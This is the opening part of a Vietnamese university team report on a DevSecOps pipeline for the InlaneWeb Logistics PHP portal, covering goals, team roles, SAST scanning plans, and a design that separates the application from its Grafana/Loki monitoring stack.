

# BÁO CÁO BÀI TẬP LỚN MÔN DEVSECOPS

**ĐỀ TÀI:**
### HỆ THỐNG DEVSECOPS CI/CD: KIỂM ĐỊNH MÃ NGUỒN, GIÁM SÁT TẬP TRUNG VÀ TRIỂN KHAI PRODUCTION CHO INLANEWEB LOGISTICS

---

| Thông tin chuyên mục | Chi tiết học thuật & Hành chính |
| :--- | :--- |
| **Cơ sở đào tạo:** | Học viện Công nghệ Bưu chính Viễn thông (PTIT) |
| **Khoa chuyên môn:** | Khoa Công nghệ Thông tin / Khoa An toàn Thông tin |
| **Học phần:** | Thực hành Kỹ thuật DevOps & DevSecOps Nâng cao |
| **Mã định danh công trình:** | PTIT-DEVSECOPS-2026-REP05 |
| **Nhóm tác giả:** | Nguyễn Giang Nam<br>Nguyễn Đình Hải<br>Đào Xuân Mạnh<br>Lê Đức Anh<br>Nguyễn Phương Mai |
| **Môi trường thực nghiệm:** | **Web Portal:** `https://inlaneweb.ecotools.online`<br>**Grafana Observability:** `https://grafana.ecotools.online`<br>(Production VPS / Cloudflare Full SSL / Nginx Proxy Manager) |
| **Kho lưu trữ mã nguồn:** | `https://github.com/wtfwhoyouare/PTIT-DevOps-SonarQube` |
| **Thời gian hoàn thành:** | Tháng 10 năm 2026 |

---

## MỤC LỤC

- [DANH MỤC THUẬT NGỮ VÀ TỪ VIẾT TẮT](#danh-mục-thuật-ngữ-và-từ-viết-tắt)
- [PHẦN MỞ ĐẦU](#phần-mở-đầu)
  - [1. Lý do chọn đề tài](#1-lý-do-chọn-đề-tài)
  - [2. Mục tiêu nghiên cứu](#2-mục-tiêu-nghiên-cứu)
  - [3. Đối tượng và phạm vi nghiên cứu](#3-đối-tượng-và-phạm-vi-nghiên-cứu)
  - [4. Phân công nhiệm vụ nhóm (RACI)](#4-phân-công-nhiệm-vụ-nhóm-raci)
- [CHƯƠNG 1: TỔNG QUAN HỆ THỐNG VÀ CÁC KỊCH BẢN TRIỂN KHAI](#chương-1-tổng-quan-hệ-thống-và-các-kịch-bản-triển-khai)
  - [1.1. Giới thiệu ứng dụng web InlaneWeb Logistics](#11-giới-thiệu-ứng-dụng-web-inlaneweb-logistics)
  - [1.2. Thiết kế tách riêng ứng dụng và cụm giám sát](#12-thiết-kế-tách-riêng-ứng-dụng-và-cụm-giám-sát)
  - [1.3. Thiết kế mạng nội bộ và Reverse Proxy bảo mật](#13-thiết-kế-mạng-nội-bộ-và-reverse-proxy-bảo-mật)
  - [1.4. Năm kịch bản triển khai hệ thống trong thực tế](#14-năm-kịch-bản-triển-khai-hệ-thống-trong-thực-tế)
- [CHƯƠNG 2: QUẢN LÝ MÃ NGUỒN VÀ QUÉT LỖ HỔNG BẢO MẬT (STAGE 1 & 2)](#chương-2-quản-lý-mã-nguồn-và-quét-lỗ-hổng-bảo-mật-stage-1-2)
  - [2.1. Chặn lỗi commit từ máy lập trình viên bằng Git Hooks](#21-chặn-lỗi-commit-từ-máy-lập-trình-viên-bằng-git-hooks)
  - [2.2. Kiểm tra quy tắc nhánh và Pull Request (Stage 1: Policy Guard)](#22-kiểm-tra-quy-tắc-nhánh-và-pull-request-stage-1-policy-guard)
  - [2.3. Quét lỗ hổng mã nguồn bằng SonarQube và Semgrep (Stage 2: SAST)](#23-quét-lỗ-hổng-mã-nguồn-bằng-sonarqube-và-semgrep-stage-2-sast)
- [CHƯƠNG 3: ĐÓNG GÓI VÀ TỰ ĐỘNG TRIỂN KHAI LÊN PRODUCTION (STAGE 3 & 4)](#chương-3-đóng-gói-và-tự-động-triển-khai-lên-production-stage-3-4)
  - [3.1. Chạy thử nghiệm hệ thống trên môi trường tạm thời (Stage 3)](#31-chạy-thử-nghiệm-hệ-thống-trên-môi-trường-tạm-thời-stage-3)
  - [3.2. Đóng gói Docker Image và lưu trữ trên GitHub (GHCR)](#32-đóng-gói-docker-image-và-lưu-trữ-trên-github-ghcr)
  - [3.3. Tự động triển khai lên máy chủ Production VPS (Stage 4)](#33-tự-động-triển-khai-lên-máy-chủ-production-vps-stage-4)
  - [3.4. Cấu hình tên miền, SSL và Reverse Proxy kép qua Nginx Proxy Manager](#34-cấu-hình-tên-miền-ssl-và-reverse-proxy-kép-qua-nginx-proxy-manager)
- [CHƯƠNG 4: HỆ THỐNG GIÁM SÁT VÀ TỰ ĐỘNG KHÔI PHỤC](#chương-4-hệ-thống-giám-sát-và-tự-động-khôi-phục)
  - [4.1. Tách biệt log ứng dụng và log truy cập web](#41-tách-biệt-log-ứng-dụng-và-log-truy-cập-web)
  - [4.2. Thu thập và xem log tập trung trên Grafana (Promtail & Loki)](#42-thu-thập-và-xem-log-tập-trung-trên-grafana-promtail-loki)
    - [4.2.1. Kiến trúc lưu trữ và tối ưu tài nguyên của Loki](#421-kiến-trúc-lưu-trữ-và-tối-ưu-tài-nguyên-của-loki)
    - [4.2.2. Bảng điều khiển trực quan hóa 8 phân vùng giám sát an ninh](#422-bảng-điều-khiển-trực-quan-hóa-8-phân-vùng-giám-sát-an-ninh)
    - [4.2.3. Thắt chặt an ninh Grafana Dashboard (Security Hardening)](#423-thắt-chặt-an-ninh-grafana-dashboard-security-hardening)
  - [4.3. Tự động khởi động lại container khi gặp sự cố (Autoheal)](#43-tự-động-khởi-động-lại-container-khi-gặp-sự-cố-autoheal)
- [CHƯƠNG 5: CÁC TÌNH HUỐNG SỰ CỐ VÀ TẤN CÔNG THỰC TẾ](#chương-5-các-tình-huống-sự-cố-và-tấn-công-thực-tế)
  - [5.1. Các lỗi mã nguồn bị SonarQube chặn khi lập trình](#51-các-lỗi-mã-nguồn-bị-sonarqube-chặn-khi-lập-trình)
  - [5.2. Các sự cố web và hạ tầng trên môi trường Production](#52-các-sự-cố-web-và-hạ-tầng-trên-môi-trường-production)
    - [5.2.1. Sự cố mất kết nối cơ sở dữ liệu (HTTP 500 / 503)](#521-sự-cố-mất-kết-nối-cơ-sở-dữ-liệu-http-500-503)
    - [5.2.2. Lỗi truy cập trang không tồn tại (HTTP 404)](#522-lỗi-truy-cập-trang-không-tồn-tại-http-404)
    - [5.2.3. Sự cố sập ứng dụng do tràn bộ nhớ (Fatal Error)](#523-sự-cố-sập-ứng-dụng-do-tràn-bộ-nhớ-fatal-error)
    - [5.2.4. Sự cố xung đột Orphan Containers giữa hai Compose Projects song song](#524-sự-cố-xung-đột-orphan-containers-giữa-hai-compose-projects-song-song)
    - [5.2.5. Sự cố đứt gãy kết nối mạng nội bộ giữa Reverse Proxy và Web (502 Bad Gateway)](#525-sự-cố-đứt-gãy-kết-nối-mạng-nội-bộ-giữa-reverse-proxy-và-web-502-bad-gateway)
    - [5.2.6. Sự cố phân giải tên miền phụ Grafana (ERR_NAME_NOT_RESOLVED)](#526-sự-cố-phân-giải-tên-miền-phụ-grafana-err_name_not_resolved)
  - [5.3. Các kịch bản tấn công thực tế và cách phát hiện qua log](#53-các-kịch-bản-tấn-công-thực-tế-và-cách-phát-hiện-qua-log)
  - [5.4. Biện pháp vá lỗi và phòng thủ an toàn](#54-biện-pháp-vá-lỗi-và-phòng-thủ-an-toàn)
- [CHƯƠNG 6: KẾT LUẬN VÀ HƯỚNG PHÁT TRIỂN](#chương-6-kết-luận-và-hướng-phát-triển)
  - [6.1. Kết quả đạt được](#61-kết-quả-đạt-được)
  - [6.2. Hạn chế và hướng phát triển tiếp theo](#62-hạn-chế-và-hướng-phát-triển-tiếp-theo)
- [TÀI LIỆU THAM KHẢO](#tài-liệu-tham-khảo)
- [PHỤ LỤC: HỒ SƠ MINH CHỨNG THỰC NGHIỆM](#phụ-lục-hồ-sơ-minh-chứng-thực-nghiệm)

---

## DANH MỤC THUẬT NGỮ VÀ TỪ VIẾT TẮT

| Thuật ngữ / Viết tắt | Ý nghĩa và định nghĩa kỹ thuật |
| :--- | :--- |
| **CI/CD** | Continuous Integration / Continuous Deployment — Quy trình tích hợp và chuyển giao phần mềm tự động liên tục |
| **DevSecOps** | Development, Security, and Operations — Phương pháp luận tích hợp an ninh vào toàn bộ vòng đời phát triển phần mềm |
| **Shift-Left** | Chiến lược dịch chuyển việc kiểm thử an ninh về các pha sớm trong chu kỳ phát triển mã nguồn |
| **SAST** | Static Application Security Testing — Kỹ thuật kiểm thử an ninh ứng dụng tĩnh trực tiếp trên mã nguồn |
| **DAST** | Dynamic Application Security Testing — Kỹ thuật kiểm thử an ninh ứng dụng động khi dịch vụ đang chạy |
| **SCA** | Software Composition Analysis — Phân tích thành phần và lỗ hổng phụ thuộc bên thứ ba trong phần mềm |
| **FOSS** | Free and Open-Source Software — Phần mềm nguồn mở tự do, không phát sinh chi phí bản quyền |
| **GHCR** | GitHub Container Registry — Kho lưu trữ và phân phối Docker Image của GitHub |
| **AST** | Abstract Syntax Tree — Cây cú pháp trừu tượng đại diện cho cấu trúc mã nguồn phần mềm |
| **CFG** | Control Flow Graph — Đồ thị luồng điều khiển biểu diễn các đường thực thi của chương trình |
| **Taint Analysis** | Phương pháp phân tích luồng dữ liệu ô nhiễm từ Source đầu vào đến Sink thực thi |
| **Source / Sink / Sanitizer** | Điểm tiếp nhận dữ liệu đầu vào / Điểm thực thi câu lệnh nhạy cảm / Hàm làm sạch và lọc dữ liệu |
| **Quality Gate** | Ngưỡng điều kiện chặn chất lượng và an ninh mã nguồn trước khi cho phép tích hợp |
| **Ephemeral Stack** | Cụm dịch vụ thử nghiệm tạm thời được khởi tạo và tiêu hủy tự động trong máy ảo Runner |
| **Zero-Downtime** | Triển khai phiên bản mới mà không làm gián đoạn hoặc ngắt quãng dịch vụ của người dùng |
| **Dual-Track Lifecycle** | Kiến trúc phân tách độc lập vòng đời giữa khối ứng dụng nghiệp vụ và khối hạ tầng giám sát |
| **Dual-Stream Logging** | Kiến trúc phân tách độc lập giữa luồng log chẩn đoán ứng dụng và luồng log lưu lượng HTTP |
| **Observability** | Khả năng giám sát và đo lường trạng thái nội tại của hệ thống thông qua Logs, Metrics và Traces |
| **Auto-Healing** | Cơ chế giám sát nhịp tim và tự động khởi động lại container khi phát hiện trạng thái lỗi |
| **SQLi** | SQL Injection — Kỹ thuật tấn công chèn câu lệnh SQL trái phép vào dữ liệu đầu vào |
| **RCE** | Remote Code Execution — Lỗ hổng cho phép kẻ tấn công thực thi mã lệnh tùy ý trên máy chủ |
| **RTO / RPO** | Recovery Time Objective (Mục tiêu thời gian phục hồi) / Recovery Point Objective (Mục tiêu điểm phục hồi dữ liệu) |
| **PR** | Pull Request — Yêu cầu hợp nhất mã nguồn giữa các nhánh trong Git |
| **NPM** | Nginx Proxy Manager — Hệ thống quản lý máy chủ Reverse Proxy và chứng chỉ SSL |
| **VPS** | Virtual Private Server — Máy chủ riêng ảo phục vụ môi trường Production |
| **SSL / TLS** | Secure Sockets Layer / Transport Layer Security — Giao thức mật mã bảo vệ kênh truyền mạng |
| **OWASP** | Open Web Application Security Project — Tổ chức quốc tế về an ninh ứng dụng web |
| **CWE / CVE** | Common Weakness Enumeration (Danh mục điểm yếu an ninh) / Common Vulnerabilities and Exposures (Lỗ hổng bảo mật đã công bố) |
| **RACI** | Responsible (Thực thi), Accountable (Phê duyệt), Consulted (Tham vấn), Informed (Thông báo) |

---

## PHẦN MỞ ĐẦU

### 1. Lý do chọn đề tài

Trong tiến trình chuyển đổi sang điện toán đám mây và kiến trúc dịch vụ phân tán, phương pháp luận DevOps đã chứng minh được tính ưu việt vượt bậc trong việc rút ngắn chu kỳ phát hành phần mềm. Thông qua việc tự động hóa đường ống CI/CD, các tổ chức công nghệ có thể phát hành hàng chục phiên bản mỗi ngày. Tuy nhiên, tốc độ gia tăng nhanh chóng này vô hình trung tạo ra nghịch lý lớn đối với công tác bảo đảm an toàn thông tin: các quy trình kiểm định an ninh truyền thống vốn phụ thuộc vào đánh giá thủ công hoặc Penetration Testing định kỳ trước khi phát hành đã trở thành điểm nghẽn nghiêm trọng trong toàn bộ vòng đời phát triển.

Thực tế công nghiệp cho thấy việc phát hiện lỗ hổng muộn tại giai đoạn sản xuất (Production) kéo theo chi phí khắc phục gấp từ 30 đến 100 lần so với việc xử lý ngay tại giai đoạn lập trình mã nguồn. Các nguy cơ an ninh ứng dụng web, điển hình là danh mục OWASP Top 10 với trọng tâm là các lỗ hổng chèn câu lệnh SQL Injection (CWE-89) và thực thi mã từ xa (RCE), tiếp tục là nguyên nhân trực tiếp dẫn tới các sự cố rò rỉ dữ liệu doanh nghiệp quy mô lớn. 

Để giải quyết bài toán mâu thuẫn giữa tốc độ phát hành liên tục và tính an toàn hệ thống, triết lý **Shift-Left Security** ra đời, thúc đẩy việc tích hợp an ninh vào mọi khâu của vòng đời phát triển phần mềm, hình thành nên mô hình DevSecOps. Tuy nhiên, việc áp dụng DevSecOps trong thực tế doanh nghiệp thường gặp phải hai rào cản lớn:
1. **Chi phí bản quyền và tính khép kín:** Các giải pháp thương mại thường có chi phí rất cao, khó tùy biến sâu vào hạ tầng nội bộ.
2. **Xung đột vòng đời và điểm mù giám sát:** Việc thiếu phân tách giữa chu kỳ cập nhật của ứng dụng nghiệp vụ và chu kỳ vận hành của hạ tầng quan sát thường gây ra hiện tượng gián đoạn dịch vụ hoặc làm thất thoát dữ liệu nhật ký kiểm toán trong các đợt phát hành phiên bản mới.

Xuất phát từ thực tiễn trên, công trình này tập trung thiết kế và triển khai một quy trình DevSecOps CI/CD tự động hóa hoàn chỉnh cho hệ thống InlaneWeb Logistics, vận hành trên nền tảng các công nghệ nguồn mở miễn phí, kết hợp quét an ninh mã nguồn nhiều tầng với cụm giám sát tập trung và cơ chế cập nhật không làm gián đoạn người dùng trên máy chủ sản xuất.

### 2. Mục tiêu nghiên cứu

#### 2.1. Mục tiêu tổng quát
Mục tiêu cốt lõi của đề tài là xây dựng một hệ thống phát triển, đóng gói, triển khai và giám sát tự động hóa toàn diện từ đầu đến cuối cho ứng dụng web InlaneWeb Logistics. Hệ thống giải quyết trọn vẹn 3 yêu cầu thực tế trong vận hành phần mềm:
1. **Bảo mật ngay từ khâu viết code:** Tự động phát hiện và chặn đứng các lỗ hổng mã nguồn nguy hiểm (đặc biệt là lỗi chèn câu lệnh SQL trái phép và thực thi mã độc) ngay trong quá trình lập trình, trước khi mã được đưa vào hệ thống chung.
2. **Triển khai an toàn và liên tục:** Đóng gói ứng dụng thành các Docker image chuẩn hóa, tự động kiểm thử trên môi trường tạm và triển khai lên máy chủ VPS thật mà không làm gián đoạn dịch vụ của người dùng, đồng thời giữ an toàn toàn bộ dữ liệu cơ sở dữ liệu.
3. **Giám sát và tự phục hồi:** Thiết lập trung tâm giám sát tập trung để ghi lại mọi hành vi bất thường, phát hiện các đợt tấn công web theo thời gian thực và tự động khởi động lại dịch vụ nếu ứng dụng gặp sự cố.

#### 2.2. Mục tiêu cụ thể
Để đạt được mục tiêu tổng quát nêu trên, nhóm tập trung thực hiện 5 nhiệm vụ kỹ thuật cụ thể:

1. **Kiểm soát mã nguồn ngay tại máy lập trình viên và trên nhánh làm việc:**
   - Cài đặt công cụ kiểm tra tự động trước khi commit: tự động quét lỗi cú pháp, ngăn lập trình viên vô tình để lộ mật khẩu, API key hoặc khóa kết nối nhạy cảm.
   - Xây dựng bộ quy tắc kiểm tra tự động trên GitHub Actions: bắt buộc tên nhánh và nội dung commit phải đúng quy ước chuẩn thì mới cho phép tạo Pull Request.

2. **Chặn lỗi bảo mật và kiểm tra chất lượng code tự động bằng SonarQube và Semgrep:**
   - Dùng SonarQube để tự động đo chất lượng code: kiểm tra cú pháp, tính toán thời gian cần bỏ ra để sửa các đoạn mã viết cẩu thả hoặc khó bảo trì (nợ kỹ thuật), và chỉ cho phép đưa code vào nhánh phát triển khi đạt chuẩn chất lượng loại A cao nhất.
   - Dùng Semgrep để rà soát chuyên sâu các lỗi logic: truy vết dữ liệu do người dùng nhập vào xem có bị nối thẳng vào câu lệnh SQL hoặc lệnh hệ thống hay không, chặn đứng 100% các điểm yếu bảo mật phổ biến (như SQL Injection, đọc file trái phép, thực thi lệnh trên máy chủ).

3. **Tự động kiểm thử trên môi trường tạm trước khi đóng gói:**
   - Xây dựng bộ kiểm tra tự động 21 tiêu chí cho toàn bộ các file cấu hình Docker và hệ thống giám sát.
   - Tự động dựng một cụm web và database tạm thời trên máy ảo GitHub Actions để chạy thử. Chỉ khi web phản hồi bình thường (HTTP 200) thì hệ thống mới đóng gói thành Docker image hoàn chỉnh và lưu trữ lên GitHub Container Registry.

4. **Triển khai tự động lên máy chủ VPS không gián đoạn dịch vụ và giữ an toàn dữ liệu:**
   - Kết nối an toàn từ GitHub Actions tới máy chủ VPS qua SSH với cặp khóa mã hóa Ed25519.
   - Tách riêng việc quản lý giữa ứng dụng web và cụm giám sát thành hai dự án Docker Compose độc lập, tránh việc triển khai ứng dụng làm xóa nhầm hoặc xung đột với hệ thống giám sát.
   - Lưu trữ dữ liệu database trên volume riêng biệt để không bao giờ bị mất dữ liệu khi cập nhật phiên bản mới.
   - Thêm cơ chế tự động thăm dò: sau khi cập nhật, hệ thống tự động kiểm tra liên tục cho đến khi web sẵn sàng phục vụ rồi mới xác nhận triển khai thành công.

5. **Giám sát an ninh tập trung và tự phục hồi khi gặp sự cố:**
   - Triển khai cụm công cụ Promtail, Loki và Grafana trên VPS. Tách riêng 2 luồng log: log lỗi nội bộ của ứng dụng PHP và log truy cập HTTP của web server để dễ dàng điều tra.
   - Xây dựng bảng điều khiển Grafana với 8 biểu đồ trực quan, giúp người quản trị nhìn thấy ngay địa chỉ IP của kẻ tấn công, đường link bị khai thác và câu lệnh độc hại khi web bị tấn công bằng SQL Injection hay XSS.
   - Thắt chặt an toàn cho trang quản trị Grafana: tắt chế độ xem nặc danh, đặt mật khẩu quản trị phức tạp và ngẫu nhiên.
   - Tích hợp công cụ Autoheal để tự động kiểm tra nhịp tim của web: nếu ứng dụng bị treo hoặc tràn bộ nhớ quá 90 giây, hệ thống sẽ tự động khởi động lại container trong vài giây mà không cần người quản trị can thiệp thủ công.

#### 2.3. Các câu hỏi cần giải quyết trong đề tài
Trong quá trình thực hiện, đề tài tập trung trả lời 3 câu hỏi thực tế:
1. *Làm thế nào để quét lỗi bảo mật thật kỹ mà pipeline vẫn chạy nhanh (dưới 3 phút), không làm lập trình viên phải chờ đợi quá lâu mỗi khi mở Pull Request?*
2. *Làm thế nào để cập nhật phiên bản mới lên VPS mà web không bị sập hay gián đoạn, và dữ liệu database cũ vẫn an toàn 100%?*
3. *Làm thế nào để phân tách và thu thập log hiệu quả, giúp người quản trị phát hiện ngay lập tức khi máy chủ bị tấn công thực tế mà không làm tốn tài nguyên VPS?*

### 3. Đối tượng và phạm vi nghiên cứu

* **Đối tượng nghiên cứu:** 
  * Quy trình tích hợp và chuyển giao liên tục an toàn (DevSecOps CI/CD Pipeline).
  * Ứng dụng quản lý cảng biển và vận tải InlaneWeb Logistics (ngôn ngữ PHP 8.2, cơ sở dữ liệu MariaDB 10.11, nền tảng Docker Container).
  * Các công cụ và giao thức an ninh, kiểm thử và quan sát nguồn mở: SonarQube Community, Semgrep, Docker Compose, Promtail, Grafana Loki, Grafana, Nginx Proxy Manager, Cloudflare Edge Network.
* **Phạm vi nghiên cứu:** 
  * Triển khai thực nghiệm trên hệ thống hạ tầng thực tế: Máy chủ ảo hóa Production VPS chạy hệ điều hành Ubuntu 24.04 LTS, định tuyến tên miền chính thức `inlaneweb.ecotools.online` qua mạng Cloudflare với mã hóa TLS 1.3 Full Strict.
  * Giới hạn an ninh tập trung vào các lớp lỗ hổng kiểm soát truy cập và thao tác dữ liệu: SQL Injection (In-band, Blind, Out-of-band), Local File Inclusion, Remote Code Execution qua Web Shell và các vi phạm chính sách mã nguồn.
* **Phương pháp luận nghiên cứu:**
  * **Phương pháp nghiên cứu lý thuyết:** Phân tích tài liệu chuẩn SSDF của NIST (SP 800-218), các ấn bản của OWASP, mô hình lý thuyết dòng dữ liệu Taint Tracking và kiến trúc quan sát phân tán.
  * **Phương pháp thực nghiệm kỹ thuật:** Xây dựng hệ thống thực nghiệm đa tầng, thiết lập đường ống GitHub Actions tự động hóa, cấu hình cụm giám sát thực tế và thực hiện đo lường định lượng các chỉ số kỹ thuật (RTO, RPO, thời gian thực thi pipeline, tỷ lệ phát hiện lỗ hổng).

### 4. Phân công nhiệm vụ nhóm (RACI)

* **Ý nghĩa khoa học:** Công trình đóng góp mô hình toán học hóa kiểm soát luồng nhánh dựa trên lý thuyết máy trạng thái hữu hạn; chứng minh tính hiệu quả của phương pháp Taint Analysis kết hợp đo nợ kỹ thuật AST trong việc tối ưu hóa độ trễ phản hồi an ninh (Security Feedback Loop).
* **Giá trị thực tiễn:** Cung cấp một bộ khung mã nguồn và cấu hình hoàn chỉnh, sẵn sàng tái sử dụng (production-ready) cho các doanh nghiệp vừa và nhỏ, cho phép xây dựng nền tảng DevSecOps và Observability mạnh mẽ với chi phí bản quyền bằng 0.

#### Bảng phân công trách nhiệm theo ma trận RACI

| Thành viên thực hiện | Vai trò trong dự án | Trách nhiệm chính (RACI Matrix) |
| :--- | :--- | :--- |
| **Nguyễn Giang Nam** | Trưởng nhóm / Kiến trúc sư DevSecOps | **A / R**: Thiết kế tổng thể kiến trúc đường ống CI/CD, viết Policy Guard Engine, thiết lập Stage 3 Ephemeral Stack, cấu hình Stage 4 SSH CD và tích hợp triển khai Production VPS. |
| **Nguyễn Đình Hải** | Kỹ sư An ninh Phần mềm (AppSec Engineer) | **R**: Tích hợp khung phân tích an ninh tĩnh đa tầng Stage 2 (SonarQube Quality Gate Rating A & Semgrep Taint Analysis), cấu hình tập luật an ninh địa phương và xuất báo cáo an ninh tự động. |
| **Đào Xuân Mạnh** | Kỹ sư Hạ tầng và Độ tin cậy (SRE / Cloud Engineer) | **R**: Thiết lập cụm quan sát tập trung FOSS (Promtail, Loki, Grafana), cấu hình Nginx Proxy Manager, Cloudflare SSL/TLS 1.3 và cơ chế tự phục hồi Autoheal. |
| **Lê Đức Anh** | Kỹ sư Đảm bảo Chất lượng & Kiểm thử (QA / Test Engineer) | **C / R**: Xây dựng bộ công cụ thẩm định cấu hình tĩnh 21/21 test cases (`ci/validate_configs.py`), thiết lập kịch bản kiểm thử nhịp tim đầu cuối (E2E Smoke Test) và kịch bản Rollback. |
| **Nguyễn Phương Mai** | Chuyên viên Phân tích Hệ thống & Tài liệu kỹ thuật | **C / I**: Khảo sát nghiệp vụ cổng thông tin InlaneWeb Logistics, chuẩn hóa tài liệu vận hành kỹ thuật (`docs/`), thiết kế ma trận kiểm thử đối kháng và tổng hợp báo cáo học thuật. |

*(Quy ước: **R** — Responsible: Người trực tiếp thực thi; **A** — Accountable: Người chịu trách nhiệm phê duyệt và kết quả cuối cùng; **C** — Consulted: Người được tham vấn chuyên môn; **I** — Informed: Người được thông báo tiến độ).*

---

## CHƯƠNG 1: TỔNG QUAN HỆ THỐNG VÀ CÁC KỊCH BẢN TRIỂN KHAI

### 1.1. Giới thiệu ứng dụng web InlaneWeb Logistics

Hệ thống InlaneWeb Logistics Portal được thiết kế nhằm mô phỏng toàn diện hoạt động vận hành của một doanh nghiệp vận tải biển và khai thác cảng quốc tế. Ứng dụng cung cấp các phân hệ nghiệp vụ chính:
* **Quản trị danh mục cảng biển quốc tế:** Lưu trữ mã cảng chuẩn UN/LOCODE, vị trí địa lý, lưu lượng bốc dỡ hàng năm và năng lực tiếp nhận tàu hàng.
* **Theo dõi và quản lý vận đơn thời gian thực:** Cung cấp giao diện tra cứu mã hành trình, trạng thái xử lý hàng hóa, cập nhật hải quan và phân bổ kho bãi.
* **Xác thực và phân quyền đa cấp:** Quản lý tài khoản doanh nghiệp, đối tác vận tải và quản trị viên hệ thống với các mức đặc quyền phân cấp.
* **Tương tác và hỗ trợ kỹ thuật:** Tiếp nhận phản hồi của khách hàng, lưu vết trao đổi nghiệp vụ và xuất bản các bản tin hàng hải.

Hệ thống được xây dựng trên nền tảng công nghệ Apache HTTP Server, ngôn ngữ lập trình PHP 8.2 và hệ quản trị cơ sở dữ liệu quan hệ MariaDB 10.11. Toàn bộ các dịch vụ được container hóa độc lập thông qua Docker.

### 1.2. Thiết kế tách riêng ứng dụng và cụm giám sát

Trong môi trường triển khai thực tế, một trong những sai lầm phổ biến nhất của các kiến trúc DevOps sơ khai là việc gộp chung các dịch vụ nghiệp vụ và các dịch vụ giám sát vào trong cùng một tệp điều phối Docker Compose duy nhất. Cách tiếp cận này dẫn tới hai hệ quả tiêu cực:
1. Mỗi khi ứng dụng nghiệp vụ được cập nhật (deploy mới), toàn bộ các tiến trình giám sát và thu thập nhật ký (Promtail, Loki) cũng bị khởi động lại, tạo ra các "khoảng mù thông tin" (Monitoring Blackout) đúng vào thời điểm rủi ro cao nhất của quá trình phát hành.
2. Tải xử lý của hạ tầng giám sát có thể cạnh tranh tài nguyên trực tiếp với các tiến trình xử lý giao dịch cơ sở dữ liệu của ứng dụng.

Để khắc phục triệt để vấn đề này, công trình đề xuất kiến trúc **Dual-Track Lifecycle**:

```text
  ┌────────────────────────────────────────────────────────────────────────┐
  │         KIẾN TRÚC VÒNG ĐỜI PHÂN TÁCH KÉP (DUAL-TRACK LIFECYCLE)        │
  ├────────────────────────────────────────────────────────────────────────┤
  │                                                                        │
  │  [TRACK 1: HẠ TẦNG QUAN SÁT TẬP TRUNG - STANDING OBSERVABILITY]        │
  │   - Thành phần: Loki 3.0, Promtail 3.0, Grafana 11.0, Autoheal         │
  │   - Tệp điều phối: docker-compose.monitoring.yml                       │
  │   - Tần suất cập nhật: Rất thấp (Chỉ cập nhật khi bảo trì hạ tầng)     │
  │   - Đặc tính: Uptime 99.99%, đóng vai trò "Quan sát viên độc lập"      │
  │                                                                        │
  │            ▲                                                           │
  │            │ Đọc nhật ký thời gian thực qua /var/run/docker.sock       │
  │            │ Lắng nghe tín hiệu nhịp tim container (Healthcheck)       │
  │            │                                                           │
  │  [TRACK 2: KHỐI TẢI LÀM VIỆC NGHIỆP VỤ - APPLICATION WORKLOAD]         │
  │   - Thành phần: Web Service (ilfreight_web), DB Engine (ilfreight_db)  │
  │   - Tệp điều phối: docker-compose.prod.yml                             │
  │   - Tần suất cập nhật: Rất cao (Liên tục theo các chu kỳ Release)      │
  │   - Cơ chế nạp: Nạp hình ảnh tiền biên dịch từ GHCR, không build local │
  │                                                                        │
  └────────────────────────────────────────────────────────────────────────┘
```

Thông qua việc phân lập tệp điều phối thành [`docker-compose.monitoring.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.monitoring.yml) và [`docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml), hai khối vận hành hoàn toàn độc lập về không gian tiến trình, nhưng liên kết lỏng với nhau thông qua mạng Docker Bridge nội bộ và cơ chế chia sẻ Docker Unix Socket.

### 1.3. Thiết kế mạng nội bộ và Reverse Proxy bảo mật

Kiến trúc mạng sản xuất được thiết lập theo mô hình đa tầng phòng thủ nhằm cô lập hoàn toàn các thành phần nhạy cảm khỏi mạng Internet công cộng:


* **Bảo vệ tầng biên:** Tên miền chính thức `inlaneweb.ecotools.online` được định tuyến qua mạng phân phối nội dung Cloudflare. Địa chỉ IP máy chủ thực tế được che giấu hoàn toàn. Kênh truyền giữa người dùng cuối và Cloudflare được áp dụng tiêu chuẩn mã hóa TLS 1.3 với cơ chế tự động chuyển hướng HTTP sang HTTPS.
* **Cách ly mạng nội bộ:** Toàn bộ các container được khởi tạo trong một mạng cầu nối duy nhất có tên `inlaneweb_net`. Các cổng dịch vụ nhạy cảm như MariaDB (`3306`), Loki (`3100`), Grafana (`3000`) tuyệt đối không mở công khai ra ngoài giao diện mạng công cộng của máy chủ VPS, mà chỉ cho phép truy cập thông qua sự điều phối của Reverse Proxy nội bộ.

### 1.4. Năm kịch bản triển khai hệ thống trong thực tế

Để định hình rõ ràng ranh giới bài toán và cung cấp bức tranh toàn cảnh cho toàn bộ công trình ngay từ đầu, phần này mô hình hóa không gian bài toán triển khai thực tế của hệ thống InlaneWeb Logistics Portal. Trong môi trường công nghiệp, việc chuyển giao một hệ thống từ máy trạm của lập trình viên lên môi trường máy chủ sản xuất Production VPS không thể chỉ giả định một kịch bản lý tưởng, mà bắt buộc phải chuẩn hóa toàn bộ các tình huống nghiệp vụ, tài nguyên và khả năng chịu lỗi.

